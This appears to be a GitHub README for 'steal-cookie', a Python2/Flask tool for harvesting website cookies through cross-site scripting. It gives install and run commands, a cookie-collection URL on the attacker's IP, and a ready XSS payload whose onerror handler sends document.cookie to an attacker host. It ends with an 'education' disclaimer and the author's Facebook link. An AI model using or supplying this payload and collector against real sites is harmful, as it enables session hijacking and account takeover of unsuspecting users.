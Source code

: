 # steal-cookie
steal cookies from website using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# stealing cookie using xss :


 <h2>enter the cookie in this url </h2>
 

````http://YOUR_IP/cookie?cookie=COOKIE```` 
 

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://xss-exploiter/cookie?cookie=" + document.cookie'>
  ````
  

# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :

<a href="https://www.facebook.com/profile.php?id=100015121337012" > <h3>    Facebook </h3></a>


